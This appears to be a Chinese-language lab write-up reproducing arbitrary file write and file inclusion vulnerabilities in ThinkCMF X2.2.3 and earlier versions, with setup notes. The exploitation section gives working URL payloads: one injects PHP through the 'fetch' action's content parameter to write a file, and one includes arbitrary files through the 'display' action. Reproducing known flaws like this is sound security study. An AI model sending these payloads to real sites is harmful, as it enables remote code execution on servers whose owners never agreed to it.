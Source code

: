 # 0x00 软件介绍
基于ThinkPHP 3.2.3，让开发者更方便的一款开发框架

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：ThinkCMF X2.2.3

# 0x02 环境搭建
靶机环境：win10_1909_pro_x64_zh-chs

下载ThinkCMF X2.2.3，直接放到phpstudy的目录下，访问/ThinkCMFX/，根据提示操作即可

# 0x03 利用条件
无

# 0x04 影响版本
ThinkCMF X1.6.0  
ThinkCMF X2.1.0  
ThinkCMF X2.2.0  
ThinkCMF X2.2.1  
ThinkCMF X2.2.2  
ThinkCMF X2.2.3

# 0x05 漏洞复现
攻击环境：win10_1909_pro_x64_zh-chs（在英文的kali系统下访问会提示“just a demo for multi lang user! LANG IS en-us;”）

任意文件写入漏洞复现：  
浏览器下访问  
```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
```
访问test.php，可以看到phpinfo已经加载出来
![image](./0.png)

任意文件包含漏洞复现：  
浏览器访问  
```
?a=display&templateFile=README.md
```
可以看到成功包含了README.md
![image](./1.png)

# 0x06 踩坑记录
坑1：  
搭建环境时，第三步报错，提示“thinkcmf 安装报错 Driver.class.php 　LINE: 350”，执行“drop database thinkcmf”后，重新安装成功，原因未知

# 0x07 参考链接
无
